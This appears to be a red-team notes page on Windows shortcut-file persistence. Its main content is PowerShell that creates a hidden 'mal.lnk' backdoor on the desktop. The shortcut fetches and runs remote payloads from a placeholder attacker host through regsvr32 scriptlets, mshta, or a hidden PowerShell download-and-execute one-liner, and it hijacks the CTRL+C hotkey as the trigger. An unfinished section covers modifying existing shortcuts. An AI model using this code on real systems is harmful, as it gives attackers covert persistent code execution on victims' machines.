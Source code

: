 # Shortcut Links

## 1.1 - Create shortcut backdoor in powershell

- Note: The **TargetPath** has a limit of 260 characters long

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

## 1.2 - Modify existing .lnk shortcuts to insert backdoor in powershell

TODO: I got this covered - Userware

- First gather the variables to recreate a new one.

```
PS C:\> Get-CimInstance Win32_ShortcutFile | Select-Object Name, FileName, CreationDate, LastAccessed, Drive, Path, FileType
```

```powershell
PS C:\>
```

TODO: Use ADS (Alternate Data Streams) in the `.lnk` file with an implant

```
cmd /c mshta %CD%\Edge.lnk
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut Link File/Windows/Living off the Land|Manual: Shortcut Link File]]

- [List lnk or shortcut files in Windows with PowerShell](https://quickbytesstuff.blogspot.com/2020/05/list-lnk-or-shortcut-files-in-windows.html)

- [Dimitri's Wanderings: Get Shortcut contents in Powershell](https://dimitri.janczak.net/2018/03/26/get-shortcut-contents-in-powershell/)

- [Editing shortcut (.lnk) properties with Powershell](https://theprogrammersfirst.wordpress.com/2020/07/22/editing-shortcut-lnk-properties-with-powershell/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)